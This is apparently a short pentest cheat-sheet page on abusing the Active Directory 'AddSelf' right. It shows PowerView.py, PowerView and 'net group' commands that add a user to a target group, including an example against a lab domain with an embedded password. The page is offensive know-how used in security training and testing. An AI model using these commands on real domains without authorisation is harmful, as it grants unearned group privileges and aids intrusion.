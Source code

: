 # AddSelf

## Information

The principal has the ability to add itself to the target group.

## Exploitation

### Add User to Group

This can be done natively ([opsec considerations](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#id17)) or with [PowerView](../ad-tools/powerview.md).

{% tabs %}
{% tab title="PowerView.py" %}
```bash
# connect to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
# add user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
# confirm group membership
PV > Get-DomainGroupMember -Identity servicemgmt
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# add user to the group
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
# confirm group membership
Get-DomainGroupMember -Identity '<GROUP>'
```
{% endtab %}

{% tab title="net" %}
```powershell
# add user to the group
net group '<GROUP>' '<USER>' /add /domain
# confirm group membership
net group <GROUP> /domain
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#addself" %}
{% endtab %}
{% endtabs %}
